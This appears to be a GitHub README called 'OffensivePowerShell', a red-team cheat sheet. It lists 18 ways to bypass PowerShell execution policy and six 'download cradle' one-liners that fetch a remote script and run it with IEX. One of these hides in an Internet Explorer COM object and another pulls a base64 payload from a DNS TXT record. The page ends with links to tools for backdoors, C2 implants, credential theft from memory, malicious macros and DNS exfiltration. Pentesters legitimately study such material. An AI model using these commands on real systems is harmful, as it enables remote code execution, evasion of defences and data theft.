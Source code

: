 # OffensivePowerShell
Powershell modules and commands that come in handy for pentests and red team assessments. 

## What is PowerShell Execution Policy?

PowerShell execution policies let you determine the conditions under which PowerShell loads configuration files and runs scripts.

You can set an execution policy for the local computer, for the current user, or for a particular session. You can also use a Group Policy setting to set execution policy for computers and users.

Execution policies for the local computer and current user are stored in the registry. You do not need to set execution policies in your PowerShell profile. The execution policy for a particular session is stored only in memory and is lost when the session is closed.

The execution policy is not a security system that restricts user actions. For example, users can easily circumvent a policy by typing the script contents at the command line when they cannot run a script. Instead, the execution policy helps users to set basic rules and prevents them from violating them unintentionally.

## Know your current execution policy

Fire up powershell.exe and type in:

`Get-ExecutionPolicy -List`

## Bypassing PowerShell Execution Policy

To bypass the Execution Policy fire in the following commands:

1. PowerShell.exe -noprofile -
2. powershell -nop
3. Powershell -command "Command"
4. Powershell -c
5. powershell.exe -EncodedCommand $EncodedCommand
6. invoke-command -scriptblock {Command}
7. invoke-command -computername Computername -scriptblock {get-executionpolicy} | set-executionpolicy -force
8. Get-Content .powershellfile.ps1 | Invoke-Expression
9. GC .powershellfile.ps1 | iex
10. PowerShell.exe -ExecutionPolicy Bypass
11. PowerShell.exe -ExecutionPolicy UnRestricted
12. PowerShell.exe -ExecutionPolicy Remote-signed
13. Disable-ExecutionPolicy
14. Powershell.exe Set-ExecutionPolicy Bypass
15. Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
16. Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
17. Powershell.exe -Exec Bypass
18. Changing the Registry : HKEY_CURRENT_USER\Software\MicrosoftPowerShell\1\ShellIds\Microsoft.PowerShell

## Download Cradles

Simple Download Cradle 

`IEX (New-Object Net.Webclient).downloadstring("path-to-pwsh-script")`

Simple Download Cradle For PowerShell 3.0+

`IEX (iwr 'path-to-pwsh-script')`

Hidden IE com object

`$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('path-to-pwsh-script');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r`

Msxml2.XMLHTTP COM object

`$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','path-to-pwsh-script',$false);$h.send();iex $h.responseText`

WinHttp COM object

`$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','path-to-pwsh-script',$false);$h.send();iex $h.responseText`

DNS TXT approach, code to execute needs to be a base64 encoded string stored in a TXT record

`IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))`

## PowerShell Modules

[nishang](https://github.com/samratashok/nishang) - Offensive PowerShell for penetration testing and offensive security.

[File System Security](https://gallery.technet.microsoft.com/scriptcenter/1abd77a5-9c0b-4a2b-acef-90dbb2b84e85) - Allows a much easier management of permissions on files and folders.

[PowerForensics](https://github.com/Invoke-IR/PowerForensics) - Popular live disk forensics platform for windows.

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit) - Post-exploitation framework.

[PowerShellEmpire](https://github.com/PowerShellEmpire/Empire) - Post-exploitation agent.

[PSReflect](https://github.com/mattifestation/PSReflect) - Easily define in-memory enums, structs, and Win32 functions in PowerShell. 

[ADRecon](https://github.com/sense-of-security/ADRecon) - ADRecon is a tool which gathers information about the Active Directory and generates a report which can provide a holistic picture of the current state of the target AD environment.

[BloodHound](https://github.com/BloodHoundAD/BloodHound) - Easily identify highly complex attack paths that would otherwise be impossible to quickly identify.

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) - PowerShell command and script obfuscator.

[PowerBreach](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerBreach) - PowerBreach is a backdoor toolkit that aims to provide the user a wide variety of methods to backdoor a system.

[PowerShellArsenal](https://github.com/mattifestation/PowerShellArsenal) - A PowerShell Module Dedicated to Reverse Engineering

[Generate-Macro](https://github.com/enigma0x3/Generate-Macro) - Powershell script will generate a malicious Microsoft Office document with a specified payload and persistence method

[Invoke-AltDSBackdoor](https://github.com/enigma0x3/Invoke-AltDSBackdoor) - This script will obtain persistence on a Windows 7+ machine under both Standard and Administrative accounts by using two Alternate Data Streams

[Powershell-C2](https://github.com/enigma0x3/Powershell-C2) - A PowerShell script to maintain persistance on a Windows machine.

[mimikittenz](https://github.com/putterpanda/mimikittenz) - A post-exploitation powershell tool for extracting juicy info from memory.

[InsecurePowerShell](https://github.com/cobbr/InsecurePowerShell) - PowerShell with some security features removed. 

[PoshC2](https://github.com/nettitude/PoshC2) - Powershell C2 Server and Implants.

[p0wnedShell](https://github.com/Cn33liz/p0wnedShell) - PowerShell Runspace Post Exploitation Toolkit.

[DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator) - Data exfiltration over DNS request covert channel.

[PowerCat](https://github.com/secabstraction/PowerCat) - A PowerShell TCP/IP swiss army knife.
